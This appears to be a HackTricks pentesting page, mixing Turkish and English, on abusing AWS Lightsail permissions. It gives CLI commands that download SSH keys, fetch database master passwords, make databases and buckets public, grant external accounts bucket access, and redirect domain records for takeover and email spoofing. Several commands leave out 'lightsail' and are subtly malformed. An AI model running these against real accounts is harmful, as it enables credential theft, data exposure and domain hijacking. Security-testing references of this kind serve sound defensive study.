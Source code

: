 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

For more information about Lightsail check:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Lightsail'in **kullanıcıya ait IAM rollerini kullanmadığını**, bunun yerine AWS tarafından yönetilen bir hesaba ait olduğunu not etmek önemlidir; bu yüzden bu servisi privesc amaçlı kötüye kullanamazsınız. Ancak, kod, API keys ve veritabanı bilgileri gibi **hassas veriler** bu serviste bulunabilir.

### `lightsail:DownloadDefaultKeyPair`

This permission will allow you to get the SSH keys to access the instances:
```
aws lightsail download-default-key-pair
```
**Olası Etki:** instance'ların içinde hassas bilgileri bulma.

### `lightsail:GetInstanceAccessDetails`

Bu izin, instance'lara erişmek için SSH anahtarları oluşturmanıza olanak tanır:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potansiyel Etki:** instances içinde hassas bilgi bulunabilir.

### `lightsail:CreateBucketAccessKey`

Bu izin, bucket'a erişim için bir anahtar almanızı sağlar:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Olası Etki:** Bucket içinde hassas bilgilerin bulunması.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Bu izin, veritabanına erişmek için gerekli kimlik bilgilerini almanızı sağlar:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Olası Etki:** Veritabanı içindeki hassas bilgileri bulma.

### `lightsail:UpdateRelationalDatabase`

Bu izin, veritabanına erişim parolasını değiştirmenize olanak tanır:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Eğer veritabanı herkese açık değilse, bu izinlerle herkese açık hale de getirebilirsiniz.
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Potansiyel Etki:** Veritabanı içinde hassas bilgilerin bulunması.

### `lightsail:OpenInstancePublicPorts`

Bu izin, portları Internet'e açmaya izin verir.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potansiyel Etki:** Hassas portlara erişim.

### `lightsail:PutInstancePublicPorts`

Bu izin, portları internete açmaya izin verir. Dikkat: yapılan çağrı, belirtilmeyen tüm açık portları kapatacaktır.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:SetResourceAccessForBucket`

Bu izin, instances'lara herhangi bir ek kimlik bilgisi olmadan bir bucket'a erişim vermeyi sağlar.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potential Impact:** Hassas bilgiler içeren buckets'lara potansiyel yeni erişim.

### `lightsail:UpdateBucket`

Bu izinle bir saldırgan kendi AWS hesabına buckets'lara okuma erişimi verebilir veya buckets'ları herkese açık hale getirebilir:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potential Impact:** Hassas bilgi içeren buckets'lara potansiyel yeni erişim.

### `lightsail:UpdateContainerService`

Bu izinlerle bir attacker containers service üzerinden private ECRs'e erişim verebilir.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potential Impact:** Özel ECR'den hassas bilgilerin ele geçirilmesi

### `lightsail:CreateDomainEntry`

Bu izne sahip bir saldırgan alt alan oluşturup bunu kendi IP adresine yönlendirebilir (subdomain takeover), alan adından spoof emails göndermesine olanak tanıyan bir SPF kaydı oluşturabilir veya hatta ana alan adını kendi IP adresine yönlendirebilir.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potential Impact:** Bir alan adının ele geçirilmesi

### `lightsail:UpdateDomainEntry`

Bu izne sahip bir saldırgan bir subdomain oluşturup bunu kendi IP address'ine yönlendirerek (subdomain takeover) veya domaine ait e-postaları spoof etmesine izin veren bir SPF record oluşturabilir, hatta ana domain'i kendi IP address'ine yönlendirebilir.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Olası Etki:** Takeover a domain

{{#include ../../../../banners/hacktricks-training.md}}
